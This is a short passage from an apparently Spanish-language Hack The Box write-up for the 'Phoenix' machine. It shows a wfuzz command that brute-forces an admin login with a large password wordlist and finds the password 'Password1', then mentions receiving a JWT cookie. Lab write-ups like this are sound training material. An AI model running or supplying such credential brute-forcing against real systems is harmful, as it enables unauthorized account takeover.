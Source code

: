 Encuentro la contraseña por fuerza bruta

```null
wfuzz -c --hh=542 -t 70 -w /usr/share/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt -d 'username=admin&password=FUZZ&submit=Login' http://10.10.10.86/login
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.86/login
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000003093:   302        3 L      24 W       209 Ch      "Password1"  
```

Inicio sesión

<img src="/writeups/assets/img/Phoenix-htb/5.png" alt="">

Al entrar se me asigna un cookie que corresponde a un JWT

<img src="/writeups/assets/img/Phoenix-htb/4.png" alt="">
